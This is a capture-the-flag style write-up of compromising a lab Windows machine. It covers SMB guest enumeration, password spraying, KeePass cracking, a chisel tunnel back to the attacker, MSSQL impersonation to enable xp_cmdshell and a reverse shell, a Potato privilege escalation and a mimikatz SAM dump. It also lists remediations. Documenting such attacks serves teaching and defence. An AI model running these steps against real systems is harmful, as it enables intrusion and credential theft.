# Summary

_New Hire_ is an Easy rated standalone _Windows_ machine on the _HackSmarter_ platform. Its compromise is mainly due to the factors below:

- **SMB guest access** - the `guest` user can authenticate without providing a password, list shares and view non-default share contents. To remediate, disable the `guest` account altogether.
- **Cleartext passwords** - an email file and a shortcut file both contained cleartext passwords that were easily recoverable. To remediate, purge cleartext passwords from files, rotate potentially compromised passwords and use a secure secret and password manager as an alternative.
- **Obsolete _KeePass_ database protected by a weak password** - the database version itself is legacy and considered more GPU-friendly when attempting to crack. However, the database password was sufficiently weak that the difference between the encryption factors applied in more recent versions would not have hindered the cracking effort substantially. To remediate, migrate to a more recent version of _KeePass_ and - more importantly, assign a strong, complex password to protect the database file.
- **Potentially excessive SQL Server permission** - `Fred.Green` was able to impersonate `sa`, which allowed me to obtain command execution and an initial foothold on the target host. To remediate, review whether `Fred.Green`'s SQL permissions are necessary and remove excessive permissions where possible.
- **Insufficient SMB signing / NTLM relay protection** - though I wasn't able to crack `sysadmin`'s password using _rockyou.txt_, I was able to intercept its NTLM authentication attempt. Enforce SMB signing and relay protection to remediate.
- **Potentially excessive account privileges** - `sysadmin` had the _SeImpersonatePrivilege_, among others, which allowed me to escalate privileges. Review whether this and other privileges are necessary and remove or adjust according to requirements. 

---
# Full TCP Range Scan

Scanning the target host with the following command:

```bash
sudo nmap -v -p- --min-rate 3000 -T4 -sS -n -Pn -oN Scans/NewHire_TCP_discovery 10.0.26.32
ports=$(grep open Scans/NewHire_TCP_discovery | cut -d'/' -f1 | paste -sd,) 
sudo nmap -p$ports -v -sC -sV -sT -T4 -oN Scans/NewHire_TCP_service 10.0.26.32

Nmap scan report for WIN-0MTGMLVOBBO (10.0.26.32)
Host is up (0.099s latency).

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-09-26T19:40:16+00:00; +12s from scanner time.
| ssl-cert: Subject: commonName=WIN-0MTGMLVOBBO
| Issuer: commonName=WIN-0MTGMLVOBBO
[...]
|_  System_Time: 2026-09-26T19:39:37+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-09-26T19:39:38
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 12s, deviation: 0s, median: 12s
```

## Notes on Scan Results

The services accessible on the target host are SMB, RPC, RDP and WinRM.

---
# SMB (445/TCP)

Attempting to authenticate as `guest` without a password:



`guest` authentication successful, listing shares:



## _HR_ Share

HR is a non-default share that I can access as `guest`, listing its contents and downloading them to my local host with _impacket-smbclient_:

```bash
impacket-smbclient 'guest'@10.0.26.32 -no-pass
```



_New_Employees.pdf_ contains five full names, four of which are employees that will be onboarded and one is a member of HR:

```
The following employees will begin onboarding shortly:
-Alvin Glein, Finance
-Jen Daya, Data Analyst
-Tim Torner, Junior Helpdesk
-Jose Castillo, Sales
Please help ensure they have the necessary access, equipment, and
support prepared before their start date.
Additional onboarding details, schedules, and assignments will be
shared separately.
Thank you everyone for helping provide a smooth onboarding
experience.
Lynda Smith, Human Resources
```

_PerformanceReport.pdf_ discloses another full name - `Noa Vidal`:


_Recommendation.doc_ discloses a full name of an employee that departed from the firm - `Luca Richter`, and another full name of an HR member - `Parker Mclean`.

_employees.eml_ is an email containing another full name, `Fred Green`, and the naming convention of users - `fred.green@megacorp.com`, as well as a cleartext password:



Having the previously mentioned full names and a naming convention, I place these in a list and spray the password:



As seen above, though the output presents many hits - it only authenticates two while the rest are registered as `guest`. 

## _IT_ Share

`Tim.Torner` was mentioned in the onboarding document as a junior HelpDesk, and therefore has access to the _IT_ share, which `Jose.Castillo` does not:



The _IT_ share contains, among others, a _KeePass_ database file:



# Foothold

## Compromising _KeePass_ Database

After downloading the shares' contents, I start by focusing on the _KeePass_ database file, as it is sensitive by nature. Reviewing the file type, it is a v1 _KeePass_ database file, an obsolete version. I then used _keepass2john_ to extract the encrypted data from the file in order to crack it, aiming to obtain the master password:



Attempting to crack the hash:

```bash
john keepass.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



As seen above, the hash cracks immediately and I obtain the master password. 

Next, loading the database file into the _KeePassXC_ program on Kali and inserting the recovered password results in the below error:



Since the database is obsolete, I will have to migrate it to a new _KeePass_ database file. The beginning of the import process is shown below:



From the above point, I simply continue with default configurations until it loads the contents of the database:



Having copied the passwords for all three entries above, I continue by performing a credentialed RID cycling to enumerate all users on the target host. The rationale is spraying the recovered passwords against a *complete* user list, rather than the one I assembled myself earlier or relying on the entries of the _KeePass_ database. 

Using _impacket-lookupsid_ to perform RID cycling, then formatting the list to contain solely usernames:

```bash
impacket-lookupsid 'Jose.Castillo':'[...]'@10.0.26.32 25000 > Lists/RIDC.txt
grep "(SidTypeUser)" Lists/RIDC.txt | awk -F '\\' '{print $2}' | sed 's/ (SidTypeUser)//' > Lists/users_RIDC.txt
```

The product list is below:



Before continuing to spray the recovered password, I will create *another* list with usernames, removing the default entries like `DefaultAccount`, etc. I then continue to spray the password:



As seen above, `Fred.Green` is authenticated successfully by one of the recovered passwords. Below, `Fred.Green` authenticates over WinRM successfully:



Establishing a remote session over WinRM as `Fred.Green`, confirming command execution on the target host:



# Privilege Escalation

## _MSSQL_

Reviewing the filesystem, I notice _C:\SQL2025_, which isn't default. To confirm _MSSQL_ instance as active, I review network connections:



Indeed, _MSSQL_ is running on the target, not accessible to me over my VPN connection. To make the service accessible, I will perform a reverse port forward using _chisel_. Transferring the binary to the target host:



On my local host, I start a server over port 8000:

```bash
chisel server -p 8000 --reverse
```



On the target host, I start a reverse port forward, forwarding port 1433.

```powershell
.\chisel.exe client 10.200.99.217:8000 R:1433:127.0.0.1:1433
```



Performing a quick check using _nmap_, I scan my local host for port 1433 - it appears open:



Using _impacket-mssqlclient_, I start an interactive session with the _MSSQL_ instance through my local host:

```bash
impacket-mssqlclient 'Fred.Green':'[...]'@127.0.0.1 -windows-auth
```



The session started successfully, and I was able to use `xp_dirtree` to list filesystem objects, but `Fred.Green` can't use `xp_cmdshell` to execute commands.

In an attempt to intercept the service user's NTLMv2 hash, I initiate responder (`sudo responder -I tun0`) and list a fictional resource hosted on my local host using `xp_dirtree`:





As seen above, I managed to intercept an NTLMv2 hash belonging to `sysadmin`. Attempting to crack it with _hashcat_ fails:

```bash
hashcat -m 5600 -a 0 sysadmin.5600 /usr/share/wordlists/rockyou.txt
```

Although this avenue failed, it is informative as to the actual user that carries out the commands. Though logged in as `Fred.Green`, the listing was attempted by `sysadmin`. 

Next, I will check whether `Fred.Green` can use impersonation in order to achieve command execution. This can be done within the session itself:

```sql
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name LIKE '%IMPERSONATE%';
```



Or by using _netexec_'s module:



As seen in both outputs above, I will be able to impersonate and escalate privileges. To perform that quickly I can continue using _netexec_'s module with `ACTION` specified:

```bash
netexec mssql 127.0.0.1 -u 'Fred.Green' -p '[...]' -M mssql_priv -o ACTION=privesc
```



Impersonation is successful, and I can use `enable_xp_cmdshell` to gain command execution:



Moving forward, I attempt to get a reverse shell by pasting a payload (PowerShell #3 Base64 from revshells) and initiating a _netcat_ listener:



Once executed on the _MSSQL_ session, I get a reverse shell as `sysadmin`.

## Privilege Escalation 1 - Credential Extraction from Shortcut

Reviewing user directories, I note `sysadmin.WIN-0MTGMLVOBBO` appears rather than `sysadmin`, probably due to a duplicate account:



Nevertheless, I manage to access the directory, listing the contents of _Documents_:



There is a non-default shortcut file within the directory. Shortcut files might store credentials, to inspect whether it is the case I can simply load the configuration of the file to memory and read it with _PowerShell_.

Due to the shell not returning _PowerShell_ output, I copied the file into _\programdata_ and accessed it with a WinRM session as `Fred.Green`:

```bash
# Creates a Windows Script Host automation object
$WshShell = New-Object -ComObject WScript.Shell

# Accesses the specified shortcut and loads its configuration data into memory
$Shortcut = $WshShell.CreateShortcut("C:\programdata\ssh.lnk")

# Prints the main binary, script or directory the shortcut should launch
Write-Host "Target Path: " $Shortcut.TargetPath

# Prints additional command line parameters
Write-Host "Arguments:   " $Shortcut.Arguments
```



As seen above, a cleartext password for `admin` is stored within the shortcut file.

In truth, this method is overkill in this case, as the password can be recovered by simply reading the file. Though not as clear-cut, the password is still legible:



Attempting to authenticate as `administrator` using the recovered password is successful:



## Privilege Escalation 2 - Abusing _SeImpersonatePrivilege_

When checking its privileges, `sysadmin` has the _SeImpersonatePrivilege_:



This privilege can be easily used for privilege escalation with a Potato-style attack. After transferring _GotPotato_ and a _netcat_ binary to the target host, I execute the former in conjunction with the latter and get a connection on my listener: 



Confirming command execution as `NT AUTHORITY\SYSTEM`, I move on to dump the SAM using _mimikatz_:





As seen above, dumping the SAM results in the recovery of the `administrator`'s NT hash. Using the hash, I establish a session as `administrator` and confirm command execution and host compromise:



